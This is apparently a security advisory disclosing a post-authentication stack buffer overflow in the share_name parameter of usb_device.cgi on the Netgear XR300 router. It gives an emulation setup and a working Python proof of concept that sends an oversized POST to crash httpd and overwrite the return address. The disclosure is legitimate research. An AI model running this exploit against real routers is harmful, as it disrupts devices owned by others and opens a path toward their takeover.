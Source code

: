## buffer overflow in share_neme of usb_device.cgi



**Affected Product**: Netgear XR300 Router
**Vulnerability Type**: Buffer Overflow

**Affected Firmware Versions**:  XR300-V1.0.3.38_10.3.30 

**CVE Identifier**: 

------

### **Vulnerability Details**

#### **Description**

A stack-based buffer overflow exists in the HTTPD service through the `usb_device.cgi` endpoint. The vulnerability occurs when processing POST requests containing the `share_name` parameter. Specifically:

1. The `sub_B7350` function handles requests to `usb_device.cgi`.
2. User-controlled `share_name` input is copied to buffer `v50` using `strcpy` without proper bounds checking.
3. The `v50` buffer is only **32 bytes** in size.
4. The service permits `share_name` values up to **0x800 bytes (2048 characters)**, creating an overflow condition 

This vulnerability requires authentication to exploit, making it a post-authentication vulnerability.

![image-20250524125016776](../res/image-20250524125016776-17480622189283-17480625821895.png)

![image-20250524125054841](../res/image-20250524125054841-17480622559834-17480625956616.png)



#### **QEMU Emulation Setup**

`sudo chroot . ./qemu-arm-static -E LD_PRELOAD="/nvram.so /lib/libdl.so.0"  -g 1234  ./usr/sbin/httpd`



![image-20250524123945917](../res/image-20250524123945917-17480615941411.png)





#### 

------

### **Proof of Concept (PoC)**



```
import requests
from requests.auth import HTTPBasicAuth

router_ip = "192.168.107.135"
url = f"http://{router_ip}/usb_device.cgi"
username = "1"
password = "1"
payload = 'A' * 2048

data = {
    "mode": "add_share",
    "share_name": payload
}

headers = {
    "User-Agent": "Mozilla/5.0",
    "Content-Type": "application/x-www-form-urlencoded",
}

try:
    response = requests.post(
        url,
        data=data,
        headers=headers,
        auth=HTTPBasicAuth(username, password),

    )

    print(f"HTTP Status: {response.status_code}")
    print("Response Content:")
    print(response.text)

    if "Internal Server Error" in response.text:
        print("Server Error Detected")
    elif response.status_code == 500:
        print("Internal Server Error (500)")
    elif response.status_code == 0:
        print("Connection Reset")

except requests.exceptions.ConnectionError:
    print("Connection Failed - Potential Service Crash")
except requests.exceptions.RequestException as e:
    print(f"Request Error: {str(e)}")
except Exception as e:
    print(f"Unexpected Error: {str(e)}")
```



## 攻击结果


The PoC demonstrates successful overflow of the `v50` buffer on the stack. As shown in Figure,  the overflow overwrites the return address, granting control of the PC register. This enables arbitrary code execution by crafting a ROP chain or shellcode payload.

![image-20250524124832967](../res/image-20250524124832967-17480621144102.png)



![image-20250524125258636](../res/image-20250524125258636.png)